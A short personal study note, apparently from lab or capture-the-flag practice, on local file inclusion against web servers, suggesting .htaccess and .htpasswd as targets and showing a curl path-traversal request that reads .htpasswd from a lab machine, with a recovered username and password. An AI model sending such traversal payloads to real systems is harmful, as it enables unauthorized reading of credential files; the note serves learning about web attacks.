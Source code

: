 tags:: apache, ngnix, iis

- If you manage to get #LFI, then you can look for interesting files
	- `.htaccess`
	  logseq.order-list-type:: number
	- `.htpasswd`
	  logseq.order-list-type:: number
	- While I was playing with the [[Included VM]] I managed to get user password this way
	  logseq.order-list-type:: number
	  
	  ```bash
	  curl "http://10.129.38.202/?file=../../../../../../../../var/www/html/.htpasswd"
	  mike:Sheffield19
	  ```
-
